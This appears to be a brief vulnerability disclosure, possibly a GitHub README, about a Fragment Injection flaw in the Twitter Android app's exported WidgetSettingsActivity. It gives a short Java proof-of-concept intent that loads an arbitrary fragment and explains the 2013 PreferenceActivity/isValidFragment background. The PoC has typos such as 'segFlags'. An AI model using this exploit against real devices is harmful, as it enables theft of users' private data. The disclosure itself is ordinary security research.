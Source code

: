 # 组件-twitter
twitter android app Fragment Injection

com.twitter.android.WidgetSettingsActivity extend PreferenceActivity and export.

PoC
private void testtwitter(){
	intent i = new Intent();
	i.segFlags(Intent.FLAG_ACTIVITY_CLEAR_TASK);
	i.setClassName("com.twitter.android","com.twitter.android.WidgetSettingsActivity");
	i.putExtra(":android:show_fragment","com.samsung.android.sdk.pen.objectruntime.preload.VideoIntentFragment");
	startActivity(i);
}

Install an app, in the case of non-root can obtain private information

# Cause
news in 2013 
A New Vulnerability in the Android Framework: Fragment Injection.
vulnerability: Settings,Gmail,Google Now,DropBox and Evernote.
Any App which extended the PreferenceActivity class exported was automatically vulnerable.it is due to the Android KitKat patch which requires applications to override the new method, PreferenceActivity.isValidFragment,